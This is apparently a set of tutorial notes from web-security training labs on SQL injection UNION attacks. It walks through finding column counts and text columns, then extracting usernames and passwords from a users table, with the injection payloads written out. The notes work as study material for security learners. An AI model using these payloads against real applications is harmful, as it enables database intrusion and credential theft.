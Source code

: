 ## **Finding columns with a useful data type**

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

If the column data type is not compatible with string data, the injected query will cause a database error, such as:

```
Conversion failed when converting the varchar value 'a' to data type int.
```

## **Lab: SQL injection UNION attack, finding a column containing text**

1. Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the `category` parameter:`'+UNION+SELECT+NULL,NULL,NULL--`
2. Try replacing each null with the random value provided by the lab, for example:`'+UNION+SELECT+'abcdef',NULL,NULL--`

## **Using a SQL injection UNION attack to retrieve interesting data**

In this example, you can retrieve the contents of the `users` table by submitting the input:

```
' UNION SELECT username, password FROM users--
```

## **Lab: SQL injection UNION attack, retrieving data from other tables**

1. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:`'+UNION+SELECT+'abc','def'--`
2. Use the following payload to retrieve the contents of the `users` table:`'+UNION+SELECT+username,+password+FROM+users--`

## **Retrieving multiple values within a single column**

```
' UNION SELECT username || '~' || password FROM users--
```

## **Lab: SQL injection UNION attack, retrieving multiple values in a single column**
